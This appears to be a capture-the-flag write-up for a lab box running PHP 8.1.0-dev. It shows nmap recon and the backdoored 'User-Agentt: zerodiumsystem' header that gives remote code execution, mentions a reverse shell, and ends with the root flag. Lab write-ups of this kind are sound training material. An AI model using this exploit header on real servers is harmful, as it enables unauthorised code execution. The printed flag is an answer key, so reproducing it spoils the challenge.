



## TL;DR

In this challenge we exploit `Agentt` header `RCE` vulnerability at `PHP 8.1.0-dev` version, and find the root flag.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```


we can see port `80` with PHP cli server
```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 PHP cli server 5.5 or later (PHP 8.1.0-dev)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title:  Admin Dashboard
```

I added `agentt.thm` to my `/etc/hosts`

### Exploit Agentt vulnerability to get root shell

The nmap says this is `PHP 8.1.0-dev`, and also the headers tells us that:



I googled, and found there is `RCE` with this version [https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933).

We simply needs to add this header:
```bash
User-Agentt: zerodiumsystem('id');
```



we got code execution. Let's paste the penelope payload and get reverse shell.



The root flag can be found at `/flag.txt`:
```bash
root@3f8655e43931:/# cat flag.txt ; echo
flag{4127d0530abf16d6d23973e3df8dbecb}
```


